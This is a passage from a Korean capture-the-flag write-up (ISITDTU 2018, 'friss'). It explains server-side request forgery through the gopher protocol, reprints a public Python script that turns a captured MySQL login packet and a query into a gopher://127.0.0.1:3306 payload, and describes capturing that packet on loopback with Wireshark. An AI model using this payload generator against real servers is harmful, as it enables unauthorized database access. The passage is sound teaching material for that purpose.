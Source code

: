 `gopher` 프로토콜이 만들어진 취지는 위와 같다.
`http` 프로토콜에서는 헤더나 기타 URL 인코딩 데이터를 제어할 수 없지만, `gopher`를 사용하면, 전송 된 모든 바이트를 제어할 수 있기 때문에 이 `gopher` 프로토콜을 이용하면 `MySQL`에 요청을 보낼 수 있다고 한다.
요청을 보내는 방법은 생각보다 간단하다.  

1. Wireshark를 통해 MySQL에 로그인 하는 패킷 캡쳐  
2. 해당 패킷을 바탕으로 gopher 프로토콜 요청 페이로드 작성  

페이로드 작성은 친절하게도 이미 누군가가 파이썬 코드를 작성 해 올려두었다.  

> [https://github.com/tarunkant/Automation/blob/master/SSRF-through-Gopher.py](https://github.com/tarunkant/Automation/blob/master/SSRF-through-Gopher.py)

```python
dump = raw_input("Give connection packet of mysql: ")
query = raw_input("Give query to execute: ")

auth = dump.replace("\n","")

def encode(s):
    a = [s[i:i + 2] for i in range(0, len(s), 2)]
    return "gopher://127.0.0.1:3306/_%" + "%".join(a)


def get_payload(query):
    if(query.strip()!=''):
    	query = query.encode("hex")
    	query_length = '{:x}'.format((int((len(query) / 2) + 1)))
    	pay1 = query_length.rjust(2,'0') + "00000003" + query
    	final = encode(auth + pay1 + "0100000001")
    	return final
    else:
	return encode(auth)

print "\nYour gopher link is ready to do SSRF : \n"
print get_payload(query)
```

그럼 이제 내가 할 것은 MySQL 로그인 패킷을 잡는 것이다.
이 패킷을 잡으려면 `lo`라는 자신에게 송수신하는 루프백 네트워크 디바이스의 패킷을 잡아야 한다.

`tcpdump`로도 잡을 수 있지만, 나는 `Wireshark`를 사용하기로 했다.
Ubuntu Desktop 버전에서 `apt-get install wireshark` 하면 다운받을 수 있다. ~~데스크탑 버전 안쓰는데 이거 때문에 새로 설치함~~
`Wireshark`를 실행시킨 후 `Loopback: lo`를 선택한다.
이 후 새로운 터미널을 열어서 아래와 같이 입력한다.  

```plain
mysql -h 127.0.0.1 -u ssrf_user
```

앞서 `config.php` 파일에서 본 `MySQL` 사용자의 이름이 `ssrf_user`이기 때문에 `-u ssrf_user`를 입력 해 주었다.
그런데 우리는 `요청하는 패킷`만 필요할 뿐, 응답은 필요없기 때문에 로그인에 성공하지 않아도 된다.
Wireshark에 패킷이 잡혀있을텐데, 그 중 `MySQL` 프로토콜에서 `Login Request`라고 써진 패킷을 잡아보면 아래와 같을 것이다.  

![](/images/CTF/ISITDTU2018/friss/friss_03.png)  
